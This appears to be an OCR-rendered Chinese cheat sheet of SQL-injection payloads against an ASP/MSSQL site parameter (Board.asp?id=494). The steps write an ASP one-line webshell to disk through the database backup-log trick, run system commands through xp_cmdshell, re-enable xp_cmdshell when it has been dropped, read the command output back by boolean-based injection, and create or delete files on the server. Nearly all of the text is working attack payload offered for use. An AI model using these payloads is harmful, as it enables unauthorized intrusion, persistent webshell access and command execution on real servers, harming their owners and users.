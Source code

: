 【上传webshell--backup log xx to disk】

备份log,截断1，截断2

第 一 步:建立存一句话木马的表

Board.asp?id=494;create table [dbo].[shit_tmp] ([cmd] [image])-

第 二 步：0×7900690061006F006C007500是&amp;apos;yiaolu&amp;apos;的sql编码

Board.asp?id=494;declare @a sysname,@s nvarchar(4000) select @a=db_name

(),@s=0×7900690061006F006C007500 backup log @a to disk = @s with init,no_truncate-

第 三 步：0×3C25657865637574652872657175657374282261222929253E是&lt;%execute(request(&quot;a&quot;))%&gt;的hex。

Board.asp?id=494;insert into [shit_tmp](cmd) values

(0×3C25657865637574652872657175657374282261222929253E)-

第 四 步0×64003A005C003100320033002E00610073007000是d:\123.asp的sql编码

Board.asp?id=494;declare @a sysname,@s nvarchar(4000) select @a=db_name

(),@s=0×64003A005C003100320033002E00610073007000 backup log @a to disk=@s with init,no_truncate-

第 五 步

Board.asp?id=494;Drop table [shit_tmp]-

【执行命令】

;CREATE TABLE [X_2894]([id] int NOT NULL IDENTITY (1,1), [ResultTxt] nvarchar(4000) NULL);

insert into [X_2894](ResultTxt) exec master.dbo.xp_cmdshell &amp;apos;Dir C:\&amp;apos;;

insert into [X_2894] values (&amp;apos;g_over&amp;apos;);exec master.dbo.sp_dropextendedproc &amp;apos;xp_cmdshell&amp;apos;-

;use master dbcc addextendedproc(&amp;apos;xp_cmdshell&amp;apos;,&amp;apos;xplog70.dll&amp;apos;)-

And (Select Top 1 CASE WHEN ResultTxt is Null then char(124) else ResultTxt+char(124) End from (Select Top 1 id,ResultTxt from [X_2894] order by [id]) T order by [id] desc)&gt;0

……

And (Select Top 1 CASE WHEN ResultTxt is Null then char(124) else ResultTxt+char(124) End from (Select Top 23 id,ResultTxt from [X_2894] order by [id]) T order by [id] desc)&gt;0

g_over这个是专门插入用来作为命令回显结束的标志。

;DROP TABLE [X_2894];-

【本地文件上传】

假设上传到服务器c:\down.vbs位置

;exec master.dbo.xp_cmdshell &amp;apos;del C:\down.vbs&amp;apos;-

;exec master.dbo.xp_cmdshell &amp;apos;ecHo [DeleteOnCopy] &gt;&gt; C:\down.vbs&amp;apos;;exec master.dbo.sp_dropextendedproc &amp;apos;xp_cmdshell&amp;apos;-

;use master dbcc addextendedproc(&amp;apos;xp_cmdshell&amp;apos;,&amp;apos;xplog70.dll&amp;apos;)-
